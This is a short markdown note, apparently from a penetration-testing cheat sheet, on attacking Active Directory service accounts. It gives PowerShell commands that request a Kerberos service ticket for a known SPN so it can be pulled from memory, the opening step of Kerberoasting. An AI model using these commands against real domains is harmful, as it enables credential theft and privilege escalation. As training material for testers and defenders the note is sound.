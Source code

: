 # Attacking Service Accounts
> Tips for gaining access to and privilege escalating through service accounts in an AD environment

- if the target SPN is known then you can request a service ticket for it from the DC and extract it from memory

- PowerShell to load SPN namespace: 
```Add-Type -AssemblyName System.IdentityModel```
- PowerShell to request a ticket for the SPN: 
```Add-Type -AssemblyName System.IdentityModel New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList 'HTTP/CorpWebServer.corp.com'```

